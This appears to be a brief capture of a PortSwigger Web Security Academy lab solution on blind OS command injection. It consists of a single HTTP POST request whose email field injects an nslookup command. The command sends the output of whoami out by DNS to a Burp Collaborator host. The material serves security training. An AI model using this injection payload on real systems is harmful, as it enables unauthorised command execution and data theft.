

# Lab: Blind OS command injection with out-of-band data exfiltration

```bash
POST /feedback/submit HTTP/1.1
Host: ac5a1f451ea793c7c0a60d2700e600db.web-security-academy.net
Cookie: session=yPD1zvL7mwMCmWHso7hLDDqgWrOFPJNn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 155
Origin: https://ac5a1f451ea793c7c0a60d2700e600db.web-security-academy.net
Referer: https://ac5a1f451ea793c7c0a60d2700e600db.web-security-academy.net/feedback
Te: trailers
Connection: close

csrf=6u3sXA9Ep2kPfdHUQu8YFxg4NhA7YJIz&name=test&email=%26nslookup+`whoami`.ji51clxvk8i16w12a2ba90wv7mdd12.burpcollaborator.net%26&subject=test&message=test
```



